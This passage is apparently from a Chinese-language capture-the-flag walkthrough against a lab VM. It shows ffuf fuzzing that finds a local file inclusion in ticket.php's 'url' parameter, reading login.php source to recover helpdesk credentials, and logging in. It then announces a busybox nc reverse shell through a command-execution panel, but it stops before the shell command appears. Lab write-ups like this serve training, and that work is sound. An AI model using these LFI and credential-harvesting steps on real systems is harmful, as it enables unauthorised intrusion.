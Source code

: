 扫描发现了几个关键文件：`debug.php`, `login.php`, `panel.php` 和 `ticket.php`。

访问 `debug.php` 页面，发现了一组凭证，但经过尝试，这组凭证无法用于登录，属于误导信息。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl http://192.168.205.142/debug.php   
<style>
...
</style><h2>Debug Mode Enabled</h2><pre>[DEBUG] Connecting to internal dev server...
[DEBUG] Using creds: service_user:SuperSecretDev123!</pre>
```

# 二、漏洞利用

## **1. 本地文件包含 (LFI)**

`ticket.php` 页面看起来像一个票据查看器，尝试使用 `ffuf` 对其参数进行模糊测试。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ ffuf -w ... -u 'http://192.168.205.142/ticket.php?FUZZ=id' --fw 24
...
url                     [Status: 200, Size: 271, Words: 30, Lines: 5, Duration: 0ms]
...
```

Fuzzing 发现了一个名为 `url` 的参数。通过该参数，可以读取 `login.php` 的源代码，确认存在本地文件包含漏洞。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl 'http://192.168.205.142/ticket.php?url=login.php'
...
<h1>Ticket Viewer</h1><pre><?php
session_start();
...
// Stored credentials
$stored_user = 'helpdesk';

// SHA-512 hash for password: ticketmaster
$stored_hash = '$6$ABC123$fLo2MacCV.XBQeRZtHWL2297q/fUBs/b8gOmvLGuiz7wDgl3MSWcOOSKnTbaNPoUMCmEpY1dlwuPKbAtIuoo6.';
...
?>
...
```

从 `login.php` 的源码中，获得了用户名 `helpdesk` 和密码 `ticketmaster` 的哈希值。使用 `helpdesk:ticketmaster` 成功登录了Web后台。

## **2. 命令执行与反弹Shell**

登录后的面板存在命令执行功能。利用该功能，通过 `busybox nc` 获取一个反弹shell。

在Kali上监听8888端口：
